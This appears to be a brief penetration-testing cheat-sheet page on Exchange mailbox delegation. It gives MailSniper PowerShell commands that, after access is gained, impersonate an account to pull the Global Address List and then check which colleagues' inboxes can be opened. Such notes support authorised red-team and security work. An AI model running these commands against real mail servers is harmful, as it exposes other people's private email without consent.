 # MailBox delegation

## MailBox delegation

### MailSniper

#### Mailbox delegation \(Exchange servers\)

After gaining access, retrieve Global Addresses List 

```bash
PS C:\Users\b3v1l\Desktop\tools\MailSniper> Invoke-GlobalMailSearch -ImpersonationAccount current-username -ExchHostname ExachangeServer -OutputCsv my_list.csv
```

and try to connect to them using MailSniper :

```bash
PS C:\Users\b3v1l\Desktop\tools\MailSniper> import-module .\MailSniper.ps1
PS C:\Users\b3v1l\Desktop\tools\MailSniper> Invoke-OpenInboxFinder -EmailList my_list.txt
```

### Resources

{% embed url="https://github.com/dafthack/mailsniper" %}





